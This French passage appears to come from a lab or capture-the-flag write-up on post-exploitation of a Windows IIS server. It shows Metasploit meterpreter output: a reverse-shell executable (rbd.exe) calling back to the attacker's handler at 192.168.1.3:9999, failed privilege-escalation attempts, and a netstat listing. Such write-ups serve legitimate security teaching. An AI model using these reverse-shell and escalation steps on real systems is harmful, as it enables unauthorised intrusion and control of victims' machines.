 Malheureusement le process est arrêté au bout d'un moment car le serveur web ou le navigateur génère un timeout (notre exécutable est traité comme un CGI).  

Il faut que l'on relance un process séparément, ce qui peut se faire directement depuis la session *meterpreter* si on est assez rapide :  

```plain
meterpreter > execute -f rbd.exe
Process 756 created.
meterpreter > background
[*] Backgrounding session 2...
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 2 opened (192.168.1.3:9999 -> 192.168.1.11:1048) at 2014-03-25 22:17:02 +0100

meterpreter >
```

Bien maintenant la connexion tient bon mais on ne peut pas faire grand chose avec nos droits en cours :

```plain
meterpreter > getprivs
============================================================
Enabled Process Privileges
============================================================
  SeShutdownPrivilege
  SeChangeNotifyPrivilege
  SeUndockPrivilege

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied.
meterpreter > shell
[-] stdapi_sys_process_execute: Operation failed: Access is denied.
```

C'est du au faut que les droits dont on dispose sont ceux d'un *IUSR* (Internet User) qui doit être la correspondance *IIS* du *nobody* pour *Apache/Unix*.  

Voyons voir ce qu'il y a d'autre comme services sur cette machine :  

```plain
meterpreter > netstat

Connection list
===============

    Proto  Local address      Remote address    State        User  Inode  PID/Program name
    -----  -------------      --------------    -----        ----  -----  ----------------
    tcp    0.0.0.0:21         0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:80         0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:135        0.0.0.0:*         LISTEN       0     0      696/svchost.exe
    tcp    0.0.0.0:445        0.0.0.0:*         LISTEN       0     0      4/System
    tcp    0.0.0.0:1025       0.0.0.0:*         LISTEN       0     0      1580/inetinfo.exe
    tcp    0.0.0.0:3389       0.0.0.0:*         LISTEN       0     0      636/svchost.exe
    tcp    127.0.0.1:1026     0.0.0.0:*         LISTEN       0     0      2012/alg.exe
    tcp    192.168.1.11:139   0.0.0.0:*         LISTEN       0     0      4/System
    tcp    192.168.1.11:1062  192.168.1.3:9999  ESTABLISHED  0     0      1224/rbd.exe
    tcp    127.0.0.1:1072     127.0.0.1:445     TIME_WAIT    0     0      0/[System Process]
    udp    0.0.0.0:500        0.0.0.0:*                      0     0      484/lsass.exe
    udp    0.0.0.0:4500       0.0.0.0:*                      0     0      484/lsass.exe
    udp    0.0.0.0:3456       0.0.0.0:*                      0     0      1580/inetinfo.exe
    udp    0.0.0.0:445        0.0.0.0:*                      0     0      4/System
    udp    127.0.0.1:123      0.0.0.0:*                      0     0      772/svchost.exe
```